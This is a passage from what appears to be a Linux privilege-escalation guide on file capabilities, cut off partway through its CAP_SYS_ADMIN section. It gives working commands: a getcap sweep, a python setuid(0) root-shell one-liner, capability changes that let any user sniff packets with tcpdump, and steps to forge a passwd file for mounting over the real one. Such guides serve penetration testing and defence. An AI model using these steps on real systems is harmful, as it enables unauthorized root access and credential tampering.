 To identify programs in a system or folder with capabilities:

```bash
getcap -r / 2>/dev/null
```

### Exploitation example

In the following example the binary `/usr/bin/python2.6` is found vulnerable to privesc:

```bash
setcap cap_setuid+ep /usr/bin/python2.7
/usr/bin/python2.7 = cap_setuid+ep

#Exploit
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```

**Capabilities** needed by `tcpdump` to **allow any user to sniff packets**:

```bash
setcap cap_net_raw,cap_net_admin=eip /usr/sbin/tcpdump
getcap /usr/sbin/tcpdump
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+eip
```

### The special case of "empty" capabilities

Note that one can assign empty capability sets to a program file, and thus it is possible to create a set-user-ID-root program that changes the effective and saved set-user-ID of the process that executes the program to 0, but confers no capabilities to that process. Or, simply put, if you have a binary that:

1. is not owned by root
2. has no `SUID`/`SGID` bits set
3. has empty capabilities set (e.g.: `getcap myelf` returns `myelf =ep`)

then **that binary will run as root**.

### CAP\_SYS\_ADMIN

**This means that you can** **mount/umount filesystems.**

#### Example with binary

```bash
getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_admin+ep
```

Using python you can mount a modified _passwd_ file on top of the real _passwd_ file:

```bash
cp /etc/passwd ./ #Create a copy of the passwd file
openssl passwd -1 -salt abc password #Get hash of "password"
vim ./passwd #Change roots passwords of the fake passwd file
```
